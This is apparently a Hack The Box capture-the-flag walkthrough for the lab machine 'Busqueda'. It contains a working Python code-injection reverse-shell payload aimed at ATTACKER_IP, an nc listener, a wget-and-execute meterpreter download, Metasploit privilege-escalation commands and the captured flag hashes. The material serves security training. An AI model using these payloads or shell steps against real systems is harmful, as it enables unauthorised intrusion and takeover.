





# HTB Walkthrough - Busqueda

**Machine Name**: Busqueda  
**Target IP**: 10.129.178.117  


---

## 🧭 Enumeration

### 🔍 Nmap Scan

```bash
nmap -sV -sC -oA nmap/Busqueda 10.129.178.117
```


**Results:**

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.52
```

> Add to /etc/hosts:
```
10.129.178.117  searcher.htb
```

---

## 🌐 Web Enumeration

- Browsing to `http://searcher.htb/` brings up a custom search engine.  


- The site takes input and appends it to a search URL (e.g., Bing).
- Input like `'+'` shows it's vulnerable to code injection.  
  


### 🧪 Exploiting Code Injection

Python-based reverse shell payload:

```python
', exec("import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ATTACKER_IP',PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"))#
```

Setup reverse shell listener:

```bash
nc -nlvp 9999
```

- Submit payload via search input → Shell received.  


Stabilize shell:

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
# Press Ctrl+Z
stty raw -echo; fg
```

---

## 🧑‍💻 User Flag

```bash
cat user.txt
# 54a7ce58f5cb31e7226f192a4d687df1
```


---

## ⬆️ Privilege Escalation

### 🔍 No sudo or SUID escalation found.

Use Metasploit local exploit suggester:

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD linux/x64/meterpreter_reverse_tcp
set LHOST <ATTACKER_IP>
run

# On victim:
wget http://<ATTACKER_IP>:8888/meterpreter.elf
chmod +x meterpreter.elf
./meterpreter.elf

# In meterpreter:
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```


### Exploitable Vulnerabilities:

- CVE-2022-0847 (DirtyPipe) → Failed
- CVE-2023-0386 (OverlayFS) → Failed
- glibc_tunables_priv_esc → ✅ **Succeeded**

```bash
use exploit/linux/local/glibc_tunables_priv_esc
set SESSION 1
run
```


```bash
meterpreter > getuid
# Server username: root
```

---

## 🔐 Root Flag


```bash
cat /root/root.txt
# a5e11ed334c867dcbc276a41796289f6
```

---

✅ **Root shell obtained via glibc tunables LPE.**
